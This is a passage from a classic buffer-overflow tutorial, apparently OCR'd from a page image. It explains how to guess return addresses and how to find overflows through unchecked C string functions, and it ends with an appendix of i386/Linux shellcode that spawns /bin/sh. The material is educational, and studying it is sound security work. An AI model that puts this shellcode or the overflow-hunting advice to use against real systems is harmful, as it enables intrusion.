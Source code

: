    On the first try!  It has certainly increased our odds.  Depending how 
much environment data the exploit program has compared with the program 
you are trying to exploit the guessed address may be to low or to high. 
Experiment both with positive and negative offsets.


                              Finding Buffer Overflows
                              ~~~~~~~~~~~~~~~~~~~~~~~~

   As stated earlier, buffer overflows are the result of stuffing more
information into a buffer than it is meant to hold.  Since C does not have any
built-in bounds checking, overflows often manifest themselves as writing past
the end of a character array.  The standard C library provides a number of
functions for copying or appending strings, that perform no boundary checking.
They include: strcat(), strcpy(), sprintf(), and vsprintf(). These functions 
operate on null-terminated strings, and do not check for overflow of the 
receiving string.  gets() is a function that reads a line from stdin into 
a buffer until either a terminating newline or EOF.  It performs no checks for
buffer overflows.  The scanf() family of functions can also be a problem if 
you are matching a sequence of non-white-space characters (%s), or matching a 
non-empty sequence of characters from a specified set (%[]), and the array 
pointed to by the char pointer, is not large enough to accept the whole 
sequence of characters, and you have not defined the optional maximum field 
width.  If the target of any of these functions is a buffer of static size, 
and its other argument was somehow derived from user input there is a good
posibility that you might be able to exploit a buffer overflow.

   Another usual programming construct we find is the use of a while loop to
read one character at a time into a buffer from stdin or some file until the
end of line, end of file, or some other delimiter is reached.  This type of
construct usually uses one of these functions: getc(), fgetc(), or getchar().
If there is no explicit checks for overflows in the while loop, such programs 
are easily exploited.

   To conclude, grep(1) is your friend.  The sources for free operating
systems and their utilities is readily available.  This fact becomes quite
interesting once you realize that many comercial operating systems utilities
where derived from the same sources as the free ones.  Use the source d00d.


     Appendix A - Shellcode for Different Operating Systems/Architectures
     ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

i386/Linux
</PRE>
```nasm
      jmp    0x1f
      popl   %esi
      movl   %esi,0x8(%esi)
      xorl   %eax,%eax
      movb   %eax,0x7(%esi)
      movl   %eax,0xc(%esi)
      movb   $0xb,%al
      movl   %esi,%ebx
      leal   0x8(%esi),%ecx
      leal   0xc(%esi),%edx
      int    $0x80
      xorl   %ebx,%ebx
      movl   %ebx,%eax
      inc    %eax
      int    $0x80
      call   -0x24
      .string \"/bin/sh\"
```
<PRE>
------------------------------------------------------------------------------
